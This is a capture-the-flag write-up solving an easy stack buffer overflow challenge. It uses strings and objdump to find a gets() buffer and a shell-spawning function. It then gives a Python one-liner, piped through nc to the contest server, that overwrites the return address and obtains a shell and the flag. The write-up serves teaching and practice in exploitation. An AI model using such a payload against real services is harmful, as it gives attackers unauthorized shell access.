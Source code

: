 # Stage 4: SPOaaS - pwn - easy

## Challange

Welcome to Stack Buffer Overflow as a Service! Since modern mitigations made it more difficult to exploit vulnerabilities, we decided to offer an easy and convenient service for everyone to experience the joy of exploiting a stack-based buffer overflow. Simply enter your data and win! `nc 209.250.235.77 22222`

## Solution

First we can have a look wether the binary contains some interesting strings:

```sh
$ strings stack

...
[]A\A]A^A_
------------------------------------------------------------------
                              SBOaaS
------------------------------------------------------------------
Welcome to Stack Buffer Overflow as a Service
Since modern mitigations made it more difficult to exploit vulnerabilities,
we decided to offer an easy and convenient service for everyone
to experience the joy of exploiting a stack-based buffer overflow.
Simply enter your data and win!
Please enter your data. Good luck!
/bin/bash
Thank you for using SBOaaS :)
;*3$"
...
```

In deed we can see that there is a `/bin/bash` in there!

If we now have a look at the binary using `objdump` and dissassemble it we can see some ineteresting functions:

```sh
$ objdump -d stack

...
0000000000400657 <stack>:
  400657:	48 81 ec 48 05 00 00 	sub    $0x548,%rsp
  40065e:	48 8d 3d 23 01 00 00 	lea    0x123(%rip),%rdi        # 400788 <_IO_stdin_used+0x8>
  400665:	e8 b6 fe ff ff       	callq  400520 <puts@plt>
  40066a:	48 8d 3d 07 03 00 00 	lea    0x307(%rip),%rdi        # 400978 <_IO_stdin_used+0x1f8>
  400671:	b8 00 00 00 00       	mov    $0x0,%eax
  400676:	e8 b5 fe ff ff       	callq  400530 <printf@plt>
  40067b:	48 89 e7             	mov    %rsp,%rdi
  40067e:	e8 cd fe ff ff       	callq  400550 <gets@plt>
  400683:	48 81 c4 48 05 00 00 	add    $0x548,%rsp
  40068a:	c3                   	retq

000000000040068b <spawn_shell>:
  40068b:	48 83 ec 18          	sub    $0x18,%rsp
  40068f:	48 8d 3d 0a 03 00 00 	lea    0x30a(%rip),%rdi        # 4009a0 <_IO_stdin_used+0x220>
  400696:	48 89 3c 24          	mov    %rdi,(%rsp)
  40069a:	48 c7 44 24 08 00 00 	movq   $0x0,0x8(%rsp)
  4006a1:	00 00
  4006a3:	48 89 e6             	mov    %rsp,%rsi
  4006a6:	ba 00 00 00 00       	mov    $0x0,%edx
  4006ab:	e8 90 fe ff ff       	callq  400540 <execve@plt>
  4006b0:	48 83 c4 18          	add    $0x18,%rsp
  4006b4:	c3                   	retq

00000000004006b5 <main>:
  4006b5:	48 83 ec 08          	sub    $0x8,%rsp
  4006b9:	b9 00 00 00 00       	mov    $0x0,%ecx
  4006be:	ba 02 00 00 00       	mov    $0x2,%edx
  4006c3:	be 00 00 00 00       	mov    $0x0,%esi
  4006c8:	48 8b 3d 81 09 20 00 	mov    0x200981(%rip),%rdi        # 601050 <stdout@@GLIBC_2.2.5>
  4006cf:	e8 8c fe ff ff       	callq  400560 <setvbuf@plt>
  4006d4:	b8 00 00 00 00       	mov    $0x0,%eax
  4006d9:	e8 79 ff ff ff       	callq  400657 <stack>
  4006de:	48 8d 3d c5 02 00 00 	lea    0x2c5(%rip),%rdi        # 4009aa <_IO_stdin_used+0x22a>
  4006e5:	e8 36 fe ff ff       	callq  400520 <puts@plt>
  4006ea:	b8 00 00 00 00       	mov    $0x0,%eax
  4006ef:	48 83 c4 08          	add    $0x8,%rsp
  4006f3:	c3                   	retq
  4006f4:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  4006fb:	00 00 00
  4006fe:	66 90                	xchg   %ax,%ax

...
```

We can see a few things here, mainly we have three functions of interest the `main`, `stack` and the `spawn_shell`.
as we can see, the function `stack` gets called from main `callq  400657 <stack>`.
Here comes the interesting part, in `stack` we allocate a buffer of size [1352] `sub    $0x548,%rsp`.

This is actualy something you can find when decompiling using [cutter](https://github.com/radareorg/cutter).

So what we want to do is pollute the stack and instead of returning to the `main` function from `stack` to jump
to `spawn_shell`. We can see that `spawn_shell` is at the address: 0x40068b.

We can generate our exploit using python (note that our system is litle endian):

```sh
# test it locally
$ (python -c "print '\x00' * 1352 + '\x8b\x06\x40\x00'"; cat -) | ./stack

# get the flag
$ (python -c "print '\x00' * 1352 + '\x8b\x06\x40\x00'"; cat -) | nc 209.250.235.77 22222

------------------------------------------------------------------
                              SBOaaS
------------------------------------------------------------------

Welcome to Stack Buffer Overflow as a Service

Since modern mitigations made it more difficult to exploit vulnerabilities,
we decided to offer an easy and convenient service for everyone
to experience the joy of exploiting a stack-based buffer overflow.
Simply enter your data and win!

Please enter your data. Good luck!
> cat flag.txt
junior-20165bcdbfebe4710bd0a1c168a5e752d999676e
```
